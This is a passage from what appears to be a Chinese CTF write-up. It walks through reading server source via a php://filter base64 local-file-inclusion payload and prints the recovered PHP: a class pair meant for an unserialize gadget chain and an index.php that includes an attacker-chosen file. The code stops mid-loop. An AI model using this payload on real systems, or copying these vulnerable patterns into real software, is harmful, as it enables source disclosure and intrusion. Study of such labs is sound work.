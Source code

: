 3、那么就来获取源码看看吧，访问 `/?file=php://filter/read=convert.base64-encode/resource=hint.php`

![](https://www.zhaoj.in/wp-content/uploads/2019/04/155577166239442308dcf360add6d0101db67a7a51-1024x76.png)

4、BASE64 解码一下，得到 hint.php 的源码。

```
    <?php
    class Handle{
        private $handle;
        public function __wakeup(){
    		foreach(get_object_vars($this) as $k => $v) {
                $this->$k = null;
            }
            echo "Waking up\n";
        }
    	public function __construct($handle) {
            $this->handle = $handle;
        }
    	public function __destruct(){
    		$this->handle->getFlag();
    	}
    }

    class Flag{
        public $file;
        public $token;
        public $token_flag;

        function __construct($file){
    		$this->file = $file;
    		$this->token_flag = $this->token = md5(rand(1,10000));
        }

    	public function getFlag(){
    		$this->token_flag = md5(rand(1,10000));
            if($this->token === $this->token_flag)
    		{
    			if(isset($this->file)){
    				echo @highlight_file($this->file,true);
                }
            }
        }
    }
    ?>
```

5、重复上面的 3~4 步，获取 index.php 的源码。
```
    <html>
    <?php
    error_reporting(0);
    $file = $_GET["file"];
    $payload = $_GET["payload"];
    if(!isset($file)){
    	echo 'Missing parameter'.'<br>';
    }
    if(preg_match("/flag/",$file)){
    	die('hack attacked!!!');
    }
    @include($file);
    if(isset($payload)){
        $url = parse_url($_SERVER['REQUEST_URI']);
        parse_str($url['query'],$query);
        foreach($query as $value){
```